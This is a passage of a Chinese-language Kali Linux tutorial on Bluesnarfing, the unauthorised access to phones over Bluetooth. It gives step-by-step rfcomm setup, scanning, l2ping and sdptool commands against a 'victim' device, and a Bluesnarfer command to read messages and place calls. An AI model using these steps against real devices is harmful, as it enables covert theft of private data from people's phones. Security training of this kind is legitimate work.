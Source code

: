 1.  搜索范围内的蓝牙设备。

1.  选择找到的设备之一。

1.  点击发送。

# 蓝牙窃听

蓝牙窃听是一种可以针对易受攻击的设备进行的有趣且非常强大的攻击。简而言之，蓝牙窃听是通过蓝牙连接未经授权地访问设备，通常是手机、笔记本电脑和类似类型的设备之间的连接。这种攻击可以访问目标上各种类型的数据和资源，有些手机用户可以复制图片和私人视频。

这种类型的攻击针对任何已打开连接并且可以被扫描方发现的蓝牙设备。关闭蓝牙以及使设备不可发现是解决此问题的一种方法。

对于要被攻击的设备，攻击者必须通过暴力攻击猜测设备的 MAC 地址。与暴力攻击一样，猜测正确的 MAC 地址只是时间问题。

蓝牙使用 48 位唯一的 MAC 地址，其中前 24 位对制造商是共同的。剩下的 24 位有大约 1680 万种可能的组合，需要平均 840 万次尝试才能通过暴力破解猜出。

# 准备就绪

要开始操作，您需要准备以下物品：

+   一张能够进入监视模式的无线网卡

+   Kali Linux

这里列出的项目是基本要求，如果需要，您可以轻松地使用更多（或不同）的组件。例如，如果您想要增强范围，可以使用一个带有外部天线连接的基于 USB 的无线网卡，以获得更好的接收效果。

# 如何做...

1.  现在 Bluesnarfer 已安装，配置`rfcomm`：

```
 mkdir -p /dev/bluetooth/rfcomm
 mknod -m 666 /dev/bluetooth/rfcomm/0 c 216 0
 mknod --mode=666 /dev/rfcomm0 c 216 0
 hciconfig -i hci0 up
 hciconfig hci0
```

1.  现在开始扫描潜在的漏洞：

```
 hcitool scan hci0 
```

1.  Ping 受害者，看看他在不在：

```
 l2ping  < victim mac addr> 
```

1.  浏览受害者的`rfcomm`频道进行连接：

```
 sdptool browse --tree --l2cap < mac addr > 
```

1.  现在 Bluesnarfer 已经设置好了。现在，您可以访问受害者的手机，查看短信，打电话等等。

```
 Bluesnarfer -r 1-100 -C 7 -b < mac addr > 
```
